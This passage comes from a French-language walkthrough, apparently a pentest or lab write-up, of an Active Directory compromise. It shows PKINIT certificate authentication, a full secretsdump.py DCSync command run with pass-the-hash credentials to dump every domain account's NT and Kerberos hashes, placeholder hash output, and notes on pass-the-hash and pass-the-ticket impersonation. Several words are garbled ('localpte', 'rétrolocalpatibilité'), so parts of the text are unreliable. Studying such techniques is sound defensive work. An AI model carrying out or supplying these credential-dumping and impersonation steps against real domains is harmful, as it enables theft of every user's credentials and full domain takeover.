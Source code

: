 - Étape 1 : Chargement du Certificat PFX
- Étape 2 : Construction de la requête PKINIT
- Étape 3 : Demande d’un Ticket Granting Ticket (TGT)
    - Req Kerberos AS-REQ au DC.
	- Si l’utilisateur est autorisé, le DC renvoie un TGT.
    - Le ticket Kerberos renvoyé contient des PAC (Privileged Attribute Certificate) avec des NT Hashes.

#### 5. Exploitation de la réplication AD pour dump les hash du domaines

![PrivEscAsService](img/image-2.png)

```bash
secretsdump.py -pwd-last-set -history -user-status -just-dc -outputfile hash-all.txt -hashes 'aaaaaaaaaaaaaaaaaaaaaaaaa:bbbbbbbbbbbbbbbbbbbbbbbb' 'my-ad-02$@my-ad-02.office.domain.local'
```

Nous avons à cette étape les hashs de tout les utilisateurs du domaine en `AES256-CTS-HMAC-SHA1-96`, `AES128-CTS-HMAC-SHA1-96`, `DES-CBC-MD5`, `NT Hash`.

```hash
[...]
domain.local\p.nom:47776:lmlmlmlmlmlmlmlmlmlmlmlm:ntntntntntntntntntnt:::  (pwdLastSet=2025-02-01 02:31) (status=Enabled)
domain.local\p.nom:aes128-cts-hmac-sha1-96:afafafafafafafafafafafafafafa
domain.local\p.nom:aes256-cts-hmac-sha1-96:vevevevevevevevvevevevevevevevevevevevevevevevev
domain.local\p.nom:des-cbc-md5:mdmdmdmdmdmdmd
domain.local\p.nom_history0:47776:lmlmlmlmlmlmlmlmlmlmlmlm:ntntntntntntntntntnt:::
[...]
LAPTOP-NOM$:aes128-cts-hmac-sha1-96:fafafafafafafafafafafafafafafa
LAPTOP-NOM$:aes256-cts-hmac-sha1-96:evevevevevevevevvevevevevevevevevevevevevevevevev
LAPTOP-NOM$:des-cbc-md5:dmdmdmdmdmdmdmd
LAPTOP-NOM$:43675:lmlmlmlmlmlmlmlmlmlmlmlm:ntntntntntntntntntnt:::
[...]
```

#### 6 Crackage

- **AES256-CTS-HMAC-SHA1-96** : Chiffrement fort utilisé pour les tickets Kerberos.
- **AES128-CTS-HMAC-SHA1-96** : Moins sécurisé mais toujours utilisé.
- **DES-CBC-MD5** : Ancien algorithme, encore supporté pour des raisons de rétrolocalpatibilité.

- **LM Hash** (Legacy, souvent vide ou fixe)
- **NT Hash** l’empreinte MD4 du mot de passe d’un localpte dans Active Directory avec NTLM
    - Le NT Hash peut être utilisé pour une attaque Pass-the-Hash (PtH).
    - Il est possible de s’authentifier sur des machines Windows sans connaître le mot de passe.

- Exploite la réplication **AD (DRSUAPI - DRSGetNCChanges)** pour récupéré tous les localptes Active Directory avec leurs NTLM Hashes et clés Kerberos.
- Nécessite des permissions élevées (Replicating Directory Changes).

Ils nous est donc possible d'impersonnifier tout les utilisateurs du domaine, avec du PtH ou du PTT.
